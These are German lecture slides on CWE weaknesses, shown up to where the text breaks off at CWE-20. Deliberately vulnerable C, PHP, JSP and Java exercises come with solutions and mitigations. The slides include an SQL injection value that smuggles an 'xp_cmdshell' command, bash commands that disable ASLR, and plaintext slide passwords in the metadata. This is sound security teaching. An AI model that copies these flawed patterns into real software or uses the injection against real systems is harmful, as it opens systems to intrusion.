

.. meta::
    :author: Michael Eichberg
    :keywords: "CWE", "OWASP"
    :description lang=de: Verteilte Systeme
    :id: lecture-security-cwe-owasp
    :first-slide: last-viewed
    :master-password: WirklichSchwierig!

.. include:: ../docutils.defs

CWE/OWASP
=====================================================

:Dozent: `Prof. Dr. Michael Eichberg <https://delors.github.io/cv/folien.de.rst.html>`__
:Kontakt: michael.eichberg@dhbw.de
:Version: 1.2

.. supplemental::

  :Folien:
      [HTML] |html-source|

      [PDF] |pdf-source|
  :Fehler melden:
      https://github.com/Delors/delors.github.io/issues

.. class:: new-section transition-fade

Relevante Schwachstellen (`CWEs <https://cwe.mitre.org>`__)
-------------------------------------------------------------

.. class:: transition-move-to-top new-subsection

CWE-787: Out-of-bounds Write (Memory Corruption)
--------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position
        :width: 100%
        :widths: 40 60

        2024, #2
        2023, #1
        

CWE-787: Out-of-bounds Write (Memory Corruption)
--------------------------------------------------------

.. deck::

    .. card::

        :Beschreibung: Es werden Daten hinter oder vor den Bereich des Puffers geschrieben.
        :Programmiersprachen: C /C++
        :Wahrscheinlichkeit des Missbrauchs: Hoch
        :Technische Auswirkungen: Speichermodifikation; DoS: Crash, Beendigung oder Neustart; Ausführen von nicht autorisiertem Code oder Befehlen

    .. card::

        .. example::

            .. code:: c
                :number-lines:

                int id_sequence[3];

                /* Populate the id array. */

                id_sequence[0] = 123;
                id_sequence[1] = 234;
                id_sequence[2] = 345;
                id_sequence[3] = 456;   // <- Out-of-bounds Write

    .. card::

        .. exercise:: memcpy()
            :formatted-title: :c:`memcpy()`

            .. code:: C
                :number-lines:

                int returnChunkSize(void *) {

                    /* if chunk info is valid, return the size of usable memory,
                    * else, return -1 to indicate an error
                    */
                    ...
                }

                int main() {
                    ...
                    memcpy(destBuf, srcBuf, (returnChunkSize(destBuf)-1));
                    ...
                }

            .. solution::
                :pwd: memcpy...

                :c:`memcpy` erwartet als dritten Parameter effektiv einen :code:`unsigned int`. Wenn :code:`returnChunkSize` -1 zurückgibt, dann wird :code:`MAX_INT-1` verwendet.

        .. supplemental::c

            Signatur der Methode :c:`memcpy`:

            .. code:: C

                void *memcpy(void *dest_str, const void * src_str, size_t n)

    .. card::

        .. exercise:: Implizite Annahmen

            .. code:: C
                :number-lines:

                void host_lookup(char *user_supplied_addr){
                    struct hostent *hp;
                    in_addr_t *addr;
                    char hostname[64];
                    in_addr_t inet_addr(const char *cp); // function prototype

                    /* routine that ensures user_supplied_addr is in the right format for
                    conversion */

                    validate_addr_form(user_supplied_addr);
                    addr = inet_addr(user_supplied_addr);
                    hp = gethostbyaddr( addr, sizeof(struct in_addr), AF_INET);
                    strcpy(hostname, hp->h_name);
                }

            .. solution::
                :pwd: GEThostbyaddr

                - Problem 1: :c:`hostname` hat nur 64 Bytes, aber der Name des Hosts kann länger sein.
                - Problem 2: :c:`gethostbyaddr()` kann :c:`NULL` zurückgeben, wenn der Host nicht gefunden werden kann. (:eng:`Null-pointer Dereference`)

        .. supplemental::

            .. rubric:: Auszug aus der Dokumentation von :c:`gethostbyaddr`

            .. epigraph::

                **Return Value**

                The :c:`gethostbyaddr()` function return the :c:`hostent` structure or a :c:`NULL` pointer if an error occurs.

                -- https://linux.die.net/man/3/gethostbyaddr

    .. card::
                
        .. exercise:: Abweichung von der Erwartung

            .. code:: C
                :number-lines:

                char * copy_input(char *user_supplied_string){
                    int i, dst_index;
                    char *dst_buf = (char*)malloc(4*sizeof(char) * MAX_SIZE);
                    if ( MAX_SIZE <= strlen(user_supplied_string) ) die("string too long");
                    dst_index = 0;
                    for ( i = 0; i < strlen(user_supplied_string); i++ ){
                        if( '&' == user_supplied_string[i] ){
                            dst_buf[dst_index++] = '&';
                            dst_buf[dst_index++] = 'a'; dst_buf[dst_index++] = 'm'; 
                            dst_buf[dst_index++] = 'p'; dst_buf[dst_index++] = ';';
                        }
                        else if ( '<' == user_supplied_string[i] ){ /* encode to &lt; */ }
                        else dst_buf[dst_index++] = user_supplied_string[i];
                    }
                    return dst_buf;
                }

            .. solution::
                :pwd: dst_buf

                Das Problem ist, dass :c:`dst_buf` nur :c:`4*sizeof(char) * MAX_SIZE` Bytes hat. Wenn der Nutzer einen sehr langen String mit (fast) nur :c:`&` enkodierten Zeichen übermittelt, dann wird der Puffer überlaufen, da das Encoding 5 Zeichen benötigt.

    .. card::
                
        .. exercise:: Whitespace Bearbeitung

            .. code:: C
                :number-lines:

                char* trimTrailingWhitespace(char *strMessage, int length) {
                    char *retMessage;
                    char message[length+1];                    // copy input string to a
                    int index;                                 //      temporary string
                    for (index = 0; index < length; index++) { //
                        message[index] = strMessage[index];    //
                    }                                          //
                    message[index] = '\0';                     //

                    int len = index-1;                         // trim trailing whitespace
                    while (isspace(message[len])) {            //
                        message[len] = '\0';                   //
                        len--;                                 //
                    }                                          //
                    retMessage = message;
                    return retMessage;                         // return trimmed string
                }

            .. solution::
                :pwd: Whitespace

                Das Problem ist, dass Zeichenketten, die nur aus Whitespace bestehen, nicht korrekt behandelt werden. In diesem Fall kommt es zu einem Buffer-Underflow (d. h. es wird auf den Speicherbereich vor dem Puffer zugegriffen).

        .. supplemental::

            .. rubric:: Auszug aus der Dokumentation von :c:`isspace()`

            .. epigraph::

                If an argument (character) passed to the :c:`isspace()` function is a white-space character, it returns non-zero integer. If not, it returns 0.

    .. card::

        .. exercise:: „Widgets”

            .. code:: C
                :number-lines:

                int i;
                unsigned int numWidgets;
                Widget **WidgetList;

                numWidgets = GetUntrustedSizeValue();
                if ((numWidgets == 0) || (numWidgets > MAX_NUM_WIDGETS)) {
                    ExitError("Incorrect number of widgets requested!");
                }
                WidgetList = (Widget **)malloc(numWidgets * sizeof(Widget *));
                printf("WidgetList ptr=%p\n", WidgetList);
                for(i=0; i<numWidgets; i++) {
                    WidgetList[i] = InitializeWidget();
                }
                WidgetList[numWidgets] = NULL;
                showWidgets(WidgetList);

            .. solution::
                :pwd: malloc!!

                - Problem 1: Der Rückgabewert von :c:`malloc` wird nicht überprüft.
                - Problem 2: :c:`WidgetList[numWidgets] = NULL;` schreibt außerhalb des Puffers. (Buffer-Overflow)

    .. card::

        .. rubric:: Mögliche Abhilfemaßnahmen

        .. class:: incremental-list

        - Verwendung einer sicheren Programmiersprache (Java, Rust ...)
        - Verwendung von Bibliotheken, die sicher(er) sind (z. B. :c:`strncpy()` statt :c:`strcpy()`)
        - Kompilierung mit entsprechenden Flags, die entsprechende Prüfung aktivieren (z. B. :code:`-D_FORTIFY_SOURCE=2`)
        - Kompilierung als Position-Independent-Code

          :peripheral:`Dies löst nicht das Problem, aber es macht es schwerer eine Schwachstelle auszunutzen.`
        - Statische Analyse Werkzeuge
        - Dynamische Analyse Werkzeuge (z. B. *Fuzzing*, *Fault Injection*, ...)

.. class:: new-subsection transition-move-to-top

CWE-79: Improper Neutralization of Input During Web Page Generation (*Cross-site Scripting* or *XSS*)
------------------------------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position
        :width: 100%
        :widths: 40 60

        2024, #1
        2023, #2
        

CWE-79: *Cross-site Scripting*
---------------------------------------------------------------------

:Kurzbeschreibung: Nutzereingaben werden nicht oder falsch bereinigt, bevor sie in die Ausgabe eingefügt werden, die als Webseite für andere Benutzer verwendet wird.

.. The product does not neutralize or incorrectly neutralizes user-controllable input before it is placed in output that is used as a web page that is served to other users.

:Wahrscheinlichkeit des Missbrauchs: Hoch
:Technische Auswirkungen: Speichermodifikation; DoS: Crash, Beendigung oder Neustart; Ausführen von nicht autorisiertem Code oder Befehlen
:Betrifft: Zugriffskontrolle, Vertraulichkeit
:Typen: Stored XSS (Typ 2), Reflected XSS (Typ 1), DOM-based XSS (Typ 0)

.. supplemental::

    Durch eine XSS Lücke werden häufig Informationen abgegriffen (z. B. Session Cookies). Allerdings ist es ggf. auch möglich, dass der Angreifer die Session des Nutzers übernimmt und sich als dieser ausgibt.

CWE-79: *Cross-site Scripting*: Stored XSS (Typ 2)
----------------------------------------------------

.. image:: images/xss/stored-xss.svg
    :alt: Stored XSS
    :align: center

CWE-79: *Cross-site Scripting*: Reflected XSS (Typ 1)
--------------------------------------------------------

.. image:: images/xss/reflected-xss.svg
   :alt: Reflected XSS
   :align: center

.. supplemental::

    Reflected XSS ist häufig schwerer auszunutzen, da der Angreifer den Nutzer dazu bringen muss, einen Link zu klicken, der den Angriffsvektor enthält. Bei Stored XSS ist dies nicht notwendig, da der Angriffsvektor bereits auf dem Server gespeichert ist.

CWE-79: *Cross-site Scripting*: Dom-based XSS (Typ 0)
---------------------------------------------------------

.. image:: images/xss/dom-based-xss.svg
   :alt: Dom-based XSS
   :align: center

.. supplemental::

    Dom-based XSS ist am schwersten Auszunutzen, da der Angreifer den Nutzer dazu bringen muss den Schadcode in die Informationen einzubringen, die von dem Script verarbeitet werden (z. B. durch das Eingeben in ein Formular).

CWE-79: XSS
--------------------------------------------------------

.. deck::

    .. card::

        .. exercise:: XSS Typ 1 (Php)

            .. code:: php
                :number-lines:

                # Rückgabe einer Willkommensnachricht basierend auf dem
                # HTTP Get username Parameter
                $username = $_GET['username'];
                echo '
 Welcome, ' . $username . '
';

            .. solution::
                :pwd: beliebig_lange

                Das Problem ist, dass der Nutzername „beliebig lange“` sein kann und insbesondere beliebigen JavaScript Code enthalten. Beispiel :code:`http://trustedSite.example.com/welcome.php?username=`. Komplexerer Code könnte zum Beispiel ein Fakelogin nachbauen und so die Zugangsdaten des Nutzers abgreifen. Entsprechende Links könnten mit Hilfe von Werkzeugen so verschleiert werden, dass der Nutzer nicht bemerkt, dass er auf einen Link mit Schadfunktion klickt.

    .. card::

        .. exercise:: XSS Typ 2 (JSP)

            .. code:: jsp
                :number-lines:

                <%  String eid = request.getParameter("eid");
                    Statement stmt = conn.createStatement();
                    ResultSet rs = stmt.executeQuery("select * from emp where id="+eid);
                    if (rs != null) {
                        rs.next();
                        String name = rs.getString("name");
                    }
                %>

                Employee Name: <%= name %>

            .. solution::
                :pwd: Mein Name

                - Problem: Falls der Nutzer in der Lage war seinen Namen selber zu wählen und beim Anlegen keine ausreichenden Prüfungen stattgefunden haben, ist ggf. ein XSS Angriff möglich. Zum Beispiel wenn in einem Forum angezeigt wird, wer gerade online ist und der Nutzer seinen Namen auf z. B. :code:`` setzt.
                - Weiteres Problem : In dem Beispiel wird der Parameter :code:`eid` nicht validiert. Der Angreifer kann beliebige SQL-Statements ausführen. (SQL-Injection)

    .. card::
                
        .. exercise:: XSS Typ 2 (PHP)

            .. code:: php
                :number-lines:

                $username = mysql_real_escape_string($username);
                $fullName = mysql_real_escape_string($fullName);
                $query = sprintf('Insert Into users (uname,pwd,fname) Values ("%s","%s","%s")',
                                $username,
                                crypt($password),
                                $fullName) ;
                mysql_query($query);
                ...

            .. solution::
                :pwd: HTML code

                Hier wird zwar die Eingabe validiert (:php:`mysql_real_escape_string()`) aber *nur* in Hinblick auf SQL Injections! Der Angreifer kann so einen Nutzer anlegen, der HTML/JavaScript code enthält. Auch in diesem Fall ist es erforderlich, dass der Name an einer anderen Stelle angezeigt wird, wenn ein anderer (ggf. authentifizierter) Nutzer die Seite besucht.

CWE-79: *Cross-site Scripting*:
-------------------------------------------------------------------------------------------------------------

.. rubric:: Abhilfemaßnahmen, Erkennung und Abwehr

.. deck:: incremental

    .. card:: 

        .. rubric:: Eingabevalidierung

        .. important::

            .. container:: text-align-center

                Prüfe jeden Input!  

        .. container:: incremental

            Prüfung, dass alle auf dem Client durchgeführten Prüfungen auch auf dem Server vorgenommen werden.

    .. card::

        .. rubric:: Cookies Verwendung

        - Verringerung der Angriffsfläche mit dem Ziel möglichst wenig Daten in Cookies etc. zu speichern.
        - Verwendung von HttpOnly Cookies (d. h. Cookies, die nicht über JavaScript ausgelesen werden können).

    .. card::

        .. rubric:: Entwicklungszeit

        - Beherzigen von Best Practices (`XSS Prevention Cheat Sheet <https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html>`__)
        - Verwendung von geprüften/sicheren APIs        
        - Statische Analyse Werkzeuge

    .. card::

        .. rubric:: Setzen der CSP (Content Security Policy)\ [#]_

        .. raw:: html

            <svg viewBox="48 68 1104 396" xmlns="http://www.w3.org/2000/svg">
                                
                <!-- Definition Section -->
                <g id="definition">
                    <rect x="50" y="70" width="1100" height="140" fill="#e3f2fd" stroke="#1976d2" stroke-width="2" rx="8"/>
                    <text x="70" y="100" font-size="20" font-weight="bold" fill="#1565c0">
                    1. Definition der CSP
                    </text>
                    
                    <!-- HTTP Header -->
                    <rect x="70" y="120" width="500" height="70" fill="#fff" stroke="#64b5f6" stroke-width="2" rx="4"/>
                    <text x="90" y="145" font-size="16" font-weight="bold" fill="#0d47a1">HTTP Header:</text>
                    <text x="90" y="165" font-size="14" font-family="monospace" fill="#424242">
                    Content-Security-Policy:
                    </text>
                    <text x="90" y="183" font-size="14" font-family="monospace" fill="#1976d2">
                    default-src 'self'; script-src 'self'
                    </text>
                    
                    <!-- Meta Tag -->
                    <rect x="600" y="120" width="500" height="70" fill="#fff" stroke="#64b5f6" stroke-width="2" rx="4"/>
                    <text x="620" y="145" font-size="16" font-weight="bold" fill="#0d47a1">HTML Meta-Tag:</text>
                    <text x="620" y="165" font-size="13" font-family="monospace" fill="#424242">
                    &lt;meta http-equiv="Content-Security-Policy"
                    </text>
                    <text x="665" y="183" font-size="13" font-family="monospace" fill="#1976d2">
                    content="default-src 'self'"&gt;
                    </text>
                </g>
                
                <!-- Directives Section -->
                <g id="directives">
                    <rect x="50" y="240" width="1100" height="220" fill="#fff3e0" stroke="#f57c00" stroke-width="2" rx="8"/>
                    <text x="70" y="270" font-size="20" font-weight="bold" fill="#e65100">
                    2. Wichtige Direktiven
                    </text>
                    
                    <!-- Grid of directives -->
                    <g id="directive-grid">
                    <!-- Row 1 -->
                    <rect x="70" y="290" width="250" height="60" fill="#fff" stroke="#ffb74d" stroke-width="2" rx="4"/>
                    <text x="85" y="315" font-size="15" font-weight="bold" fill="#e65100">default-src</text>
                    <text x="85" y="335" font-size="13" fill="#424242">Fallback für alle Ressourcentypen</text>
                    
                    <rect x="340" y="290" width="250" height="60" fill="#fff" stroke="#ffb74d" stroke-width="2" rx="4"/>
                    <text x="355" y="315" font-size="15" font-weight="bold" fill="#e65100">script-src</text>
                    <text x="355" y="335" font-size="13" fill="#424242">JavaScript-Quellen (inline & extern)</text>
                    
                    <rect x="610" y="290" width="250" height="60" fill="#fff" stroke="#ffb74d" stroke-width="2" rx="4"/>
                    <text x="625" y="315" font-size="15" font-weight="bold" fill="#e65100">style-src</text>
                    <text x="625" y="335" font-size="13" fill="#424242">CSS-Stylesheets und Styles</text>
                    
                    <rect x="880" y="290" width="250" height="60" fill="#fff" stroke="#ffb74d" stroke-width="2" rx="4"/>
                    <text x="895" y="315" font-size="15" font-weight="bold" fill="#e65100">img-src</text>
                    <text x="895" y="335" font-size="13" fill="#424242">Bilder und Favicons</text>
                    
                    <!-- Row 2 -->
                    <rect x="70" y="370" width="250" height="60" fill="#fff" stroke="#ffb74d" stroke-width="2" rx="4"/>
                    <text x="85" y="395" font-size="15" font-weight="bold" fill="#e65100">connect-src</text>
                    <text x="85" y="415" font-size="13" fill="#424242">AJAX, WebSocket, fetch()-Verbindungen</text>
                    
                    <rect x="340" y="370" width="250" height="60" fill="#fff" stroke="#ffb74d" stroke-width="2" rx="4"/>
                    <text x="355" y="395" font-size="15" font-weight="bold" fill="#e65100">font-src</text>
                    <text x="355" y="415" font-size="13" fill="#424242">Web Fonts</text>
                    
                    <rect x="610" y="370" width="250" height="60" fill="#fff" stroke="#ffb74d" stroke-width="2" rx="4"/>
                    <text x="625" y="395" font-size="15" font-weight="bold" fill="#e65100">frame-src</text>
                    <text x="625" y="415" font-size="13" fill="#424242">iFrames und eingebettete Inhalte</text>
                    
                    <rect x="880" y="370" width="250" height="60" fill="#fff" stroke="#ffb74d" stroke-width="2" rx="4"/>
                    <text x="895" y="395" font-size="15" font-weight="bold" fill="#e65100">media-src</text>
                    <text x="895" y="415" font-size="13" fill="#424242">Video & Audio</text>
                    </g>
                </g>
            </svg>

        .. [#] :peripheral:`(Dies löst nicht das Problem, minimiert aber ggf. die Auswirkungen!)`

        .. supplemental::
                
            .. rubric:: CSP

            - CSP erlaubt die Kontrolle darüber, welche Ressourcen, insbesondere auch JavaScript-Ressourcen, ein Dokument laden darf.

            - Auswirkungen & Schutz

              .. class:: positive-list

                - Schutz vor XSS: Blockiert unerlaubte Inline-Scripts und externe Scripts von nicht-vertrauenswürdigen Quellen.
                    
                - Data Injection Prevention: Verhindert Einschleusung von bösartigen Inhalten durch strikte Kontrolle erlaubter Ressourcen-Quellen.
                    
                - Clickjacking-Schutz: :http:`frame-ancestors` kontrolliert, wo die Seite in Frames eingebettet werden darf.
                
                  .. code:: http

                    Content-Security-Policy: frame-ancestors 'none'
                    
                - Violation Reporting: :obsolete:`report-uri oder` report-to: Verstöße werden an definierte Endpunkte gemeldet.
                    
                - HTTPS-Erzwingung: :http:`Content-Security-Policy: upgrade-insecure-requests`: HTTP wird automatisch zu HTTPS aufgewertet.

            - Empfehlung: Starten Sie mit :http:`report-only` Mode, um Auswirkungen zu testen.

              .. code:: http

                Content-Security-Policy-Report-Only: <policy>
            
            

.. class:: new-subsection transition-move-to-top

CWE-89: Improper Neutralization of Special Elements used in an SQL Command (*SQL Injection*)
----------------------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position
        :width: 100%
        :widths: 40 60

        2024, #3
        2023, #3

CWE-89: *SQL Injection*
----------------------------------------------------------------------------

.. deck:: 

    .. card::

        :Kurzbeschreibung: Ein SQL-Befehl wird ganz oder teilweise unter Verwendung extern beeinflusster Eingaben von einer vorgelagerten Komponente erzeugt. Dabei werden aber spezielle Elemente nicht oder falsch bereinigt, die den beabsichtigten SQL-Befehl verändern könnten, wenn er an eine nachgelagerte Komponente gesendet wird.

        :Wahrscheinlichkeit des Missbrauchs: Hoch
        :Technologie: Datenbanken
        :Betrifft: Zugriffskontrolle, Vertraulichkeit, Integrität

    .. card::

            .. exercise:: MS SQL

                .. code:: sql
                    :number-lines:

                    SELECT ITEM,PRICE
                        FROM PRODUCT
                        WHERE ITEM_CATEGORY='$user_input'
                        ORDER BY PRICE

                .. warning::
                    :class: incremental

                    MS SQL hat eine eingebaute Funktion, die es erlaubt Shell Befehle auszuführen. Diese Funktion kann auch in einem SQL Statement verwendet werden.

                .. solution::
                    :pwd: Kommando_frei

                    Sollte der Nutzername :code:`'; exec master..xp_cmdshell 'dir' --` sein, dann wird das entsprechende Kommando ausgeführt.

    .. card::

            .. exercise:: PHP

                .. code:: php
                    :number-lines:

                    $id = $_COOKIE["mid"];
                    mysql_query(
                        "SELECT MessageID, Subject FROM messages WHERE MessageID = '$id'"
                    );

                .. solution::
                    :pwd: Cookies

                    Das Problem ist, dass der Wert von :code:`$id`, welcher aus einem Cookie ausgelesen wird,  nicht validiert wird. Auch wenn Cookies nicht trivial von einem Nutzer bzw. Angreifer manipuliert werden können, so ist es dennoch möglich. Der Angreifer kann so beliebige SQL Statements ausführen. Deswegen gilt: *Alle* Eingaben müssen validiert werden.

    .. card::

        .. rubric:: Abhilfemaßnahmen und Erkennung

        .. class:: incremental-list list-with-explanations

        - Verwendung von geprüften/sicheren APIs
        - Verwendung von *Prepared Statements*
        - Datenbank nur mit den notwendigen Rechten betreiben

          (*Principle of Least Privilege*)
        - Sollte es notwendig sein einen dynamischen SQL Befehl zu erstellen, dann sollten geprüfte Escapefunktionen verwendet werden
        - Statische Analyse Werkzeuge
        - ggf. Application-level Firewall einsetzen

.. class:: new-subsection transition-move-to-top

CWE-416: Use After Free (UAF)
----------------------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position
        :width: 100%
        :widths: 40 60

        2024, #8
        2023, #4

CWE-416: Use After Free
----------------------------------------------------------------------------

.. deck::

    .. card::

        :Kurzbeschreibung: Referenzierung von Speicher nach der Freigabe kann dazu führen, dass ein Programm abstürzt, unerwartete Werte verwendet oder Code ausführt.

        :Wahrscheinlichkeit des Missbrauchs: Hoch
        :Programmiersprachen: C, C++
        :Betrifft: Verfügbarkeit, Vertraulichkeit, Integrität

    .. card::

        .. example::

            .. code:: C
                :number-lines:

                char* ptr = (char*)malloc (SIZE);
                if (err) { abrt = 1;
                           free(ptr); }

            .. code:: C
                :number-lines: 1
                :class: incremental

                // ... Somewhere else in the code:
                char* otherPtr = (char*)malloc (SIZE);
                otherPtr* = <HACKER CONTROLLED VALUE>; ...

            .. code:: C
                :number-lines: 1
                :class: incremental

                if (abrt) { // Next: use of ptr after free which uses the hacker controlled value
                            logError("operation aborted before commit", ptr); }

            .. hint::

                Ziel ist es im Allgemeinen eine Referenz auf einen interessanten Speicherbereich zu erhalten, der bereits freigegeben wurde und dann den Inhalt dieses Speicherbereichs auszulesen bzw. zu manipulieren, um die nächste Verwendung zu kontrollieren.

    .. card::
        
            .. exercise:: *Memoryallocation* in C

                .. grid::

                    .. cell::

                        .. code:: C
                            :number-lines:

                            #include <stdlib.h>
                            #include <stdio.h>
                            #include <string.h>
                            #define BUFSIZER1 512
                            int main(int argc, char **argv) {
                                char *buf1R1, *buf2R1, *buf2R2;
                                buf2R1 = (char *) malloc(BUFSIZER1);
                                printf("buf2R1     -> %p\n",buf2R1);
                                free(buf2R1);
                                printf("[FREED]       %p\n",buf2R1);
                                buf2R2 = (char *) malloc(BUFSIZER1);
                                strncpy(buf2R2, argv[1], BUFSIZER1-1);
                                printf("buf2R2     -> %p\n",buf2R2);
                                printf("buf2R2     =  %s\n",buf2R2);
                                printf("!!! buf2R1 =  %s\n",buf2R1);
                                free(buf2R2); 
                            }

                    .. cell::

                        **Fragen**:

                        #. Wird dieses Program bis zum Ende laufen oder abstürzen?

                        #. Welche Ausgabe erzeugt das Programm?

                        #. Ist die Ausgabe bei jedem Lauf gleich?

                .. solution::
                    :pwd: Das Ende wir kommen.

                    Das Programm wird (immer) bis zum Ende laufen!

                    Ausgabe - 1. Lauf:

                    .. code:: text

                        buf2R1     -> 0xaaaafd8982a0
                        [FREED]       0xaaaafd8982a0
                        buf2R2     -> 0xaaaafd8982a0
                        buf2R2     =  Test
                        !!! buf2R1 =  Test

                    Ausgabe - 2. Lauf:

                    .. code:: text

                        buf2R1     -> 0xaaab070812a0
                        [FREED]       0xaaab070812a0
                        buf2R2     -> 0xaaab070812a0
                        buf2R2     =  Test
                        !!! buf2R1 =  Test

                    Der Inhalt von :code:`buf2R2` ist :code:`Test`, obwohl dort nie explizit etwas hineinkopiert wurde. Die Ausgabe (Adressen) ist bei jedem Lauf anders, da wir Position-Independent-Code haben und der Kernel ASLR verwendet.

                    Die Ausgabe wird bei jedem Lauf gleich sein, wenn man beides explizit unterbindet.

                    .. code:: bash

                        # Kompiliert 2023 mit GCC
                        gcc uaf.c -fno-stack-protector -D_FORTIFY_SOURCE=0 -no-pie -fno-pic -o uaf
                        echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

                        $ ./uaf Test
                        buf2R1     -> 0x294562a0
                        [FREED]       0x294562a0
                        buf2R2     -> 0x294562a0
                        buf2R2     =  Test
                        !!! buf2R1 =  Test

                        $ ./uaf Test
                        buf2R1     -> 0x294562a0
                        [FREED]       0x294562a0
                        buf2R2     -> 0x294562a0
                        buf2R2     =  Test
                        !!! buf2R1 =  Test

    .. card::

            .. exercise:: CVE-2006-4997 IP over ATM clip_mkip dereference freed pointer (Linux Kernel)

                .. code:: c

                    // clip_mkip (clip.c):
                        198 static void clip_push(struct atm_vcc *vcc,struct sk_buff *skb) {
                        ...
                        234         memset(ATM_SKB(skb), 0, sizeof(struct atm_skb_data));
                        235         netif_rx(skb);
                        236 }
                        ...         // PROBLEMATIC CODE STARTS HERE:
                        510         clip_push(vcc,skb);
                        511         PRIV(skb->dev)->stats.rx_packets--;
                        512         PRIV(skb->dev)->stats.rx_bytes -= len;

                    // netif_rx (dev.c):
                        1392 int netif_rx(struct sk_buff *skb) {
                        ...
                        1428        kfree_skb(skb);	//drop skb
                        1429        return NET_RX_DROP;

                .. solution::
                    :pwd: 511_1428

                    In Zeile 511 wird auf den Speicherbereich von :code:`skb->dev` zugegriffen, obwohl dieser bereits freigegeben wurde in ``netif_rx`` in Zeile 1428.

    .. card::

        .. rubric:: Abhilfemaßnahmen und Erkennung

        .. class:: incremental-list

        - Wahl einer sicheren Programmiersprache (z. B. RUST)
        - explizites :code:`NULL` setzen, nachdem der Speicherbereich freigegeben wurde
        - Fuzzing
        - Statische Analyse Werkzeuge

        .. supplemental::

            Empfohlene Lektüre: `One day short of a full chain: Real world exploit chains explained <https://github.blog/2021-03-24-real-world-exploit-chains-explained/>`__ (In Teil 1 wird eine UAF Schwachstelle genutzt.)

.. class:: new-subsection transition-move-to-top

CWE-78: Improper Neutralization of Special Elements used in an OS Command (*OS Command Injection*)
----------------------------------------------------------------------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
        :class: booktabs table-data-align-left table-header-align-left
        :header: Jahr, Position
        :width: 100%
        :widths: 40 60

        2024, #7
        2023, #5

CWE-78: *OS Command Injection*
----------------------------------------------------------------------------

.. deck::

    .. card::

        :Kurzbeschreibung: Alles oder zumindest ein Teil eines Betriebssystembefehls hängt von extern beeinflussten Eingaben ab. Es erfolgt jedoch keine Bereinigung spezieller Elemente, die den beabsichtigten Betriebssystembefehl verändern könnten.

        .. The product constructs all or part of an OS command using externally-influenced input from an upstream component, but it does not neutralize or incorrectly neutralizes special elements that could modify the intended OS command when it is sent to a downstream component.

        :Wahrscheinlichkeit des Missbrauchs: Hoch
        :Betrifft: Verfügbarkeit, Vertraulichkeit, Integrität
        :Arten:
            1. Ein bestimmtes Program wird ausgeführt und die Nutzerdaten werden als Parameter übergeben.
            2. Die Anwendung bestimmt basierend auf den Nutzerdaten welches Program mit welchen Parametern ausgeführt wird.

    .. card::

        .. exercise:: OS Command Injection in Java

            .. code:: java
                :number-lines:

                ...
                String btype = request.getParameter("backuptype");
                String cmd = new String(
                    "cmd.exe /K \"c:\\util\\rmanDB.bat "
                    + btype +
                    "&&c:\\utl\\cleanup.bat\"")

                System.Runtime.getRuntime().exec(cmd);
                ...

            .. solution::
                :pwd: Improper

                Der Wert von :code:`btype` wird nicht validiert und dewegen kann der Angreifer  beliebige Befehle ausführen, da die Shell (:code:`cmd.exe``) mehrere Befehle, die mit :code:`&&` verknüpft sind hintereinander ausführt.

    .. card::
        
        .. rubric:: Abhilfemaßnahmen und Erkennung

        .. class:: incremental-list

        - Verwendung von geprüften/sicheren APIs.
        - Anwendung bzw. Befehl nur mit den notwendigen Rechten betreiben (*Principle of Least Privilege*) bzw. in einer Sandbox ausführen.
        - Statische Analyse Werkzeuge
        - Dynammische Analyse in Kombination mit Fuzzing
        - Manuelle Code Reviews/Statische Analyse
        - ggf. Application-level Firewall einsetzen

.. class:: new-subsection transition-move-to-top

CWE-20: Improper Input Validation
-------------------------------------------

.. container:: section-subtitle

    .. rubric:: CWE Rank

    .. csv-table::
